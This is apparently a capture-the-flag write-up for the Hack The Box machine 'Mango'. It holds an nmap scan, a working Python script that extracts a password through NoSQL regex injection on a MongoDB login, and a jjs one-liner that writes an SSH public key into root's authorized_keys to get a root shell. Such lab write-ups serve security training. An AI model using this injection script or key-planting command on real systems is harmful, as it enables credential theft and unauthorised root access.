 # Mango walkthrough

Machine ip:  10.10.10.162

Nmap output:

```
root@kali:~/htb# nmap -T4 -p- 10.10.10.162
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-27 21:47 EDT
Nmap scan report for mango.htb (10.10.10.162)
Host is up (0.040s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

## User

We need to add staging-order.mango.htb to /etc/hosts in ordet to get the login page at port 80.
Mango stay for MongoDb that is the technology used for this login page and PayloadAlltheThing has the right payload for injection on MondoDb.
This machine is vulnerable to an injection able to retrieve credentials from the requests.

This script made the magic:

```
import requests
import urllib3
import string
import urllib

urllib3.disable_warnings()

username="mango"
password=""
u="http://staging-order.mango.htb/"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|','$','&']:
      payload='username=%s&password[$regex]=^%s&login=login' % (username, password + c)
      r = requests.post(u, data = payload, headers = headers,
      verify = False, allow_redirects = False)

      if 'OK' in r.text or r.status_code == 302:
        print("Found one more char : %s" % (password+c))
        password += c
```

I tested the script first with the admin user then with the mango user. Using this passwords with ssh i can get a shell and get the user flag.

## Root

Running linpeas we find jjs highlighted and GFTObins gave the answer on how to get a shell as root.
Just enter your public key and root is yours:

```
echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("YOUR PUBLIC KEY");
fw.close();' | jjs
```

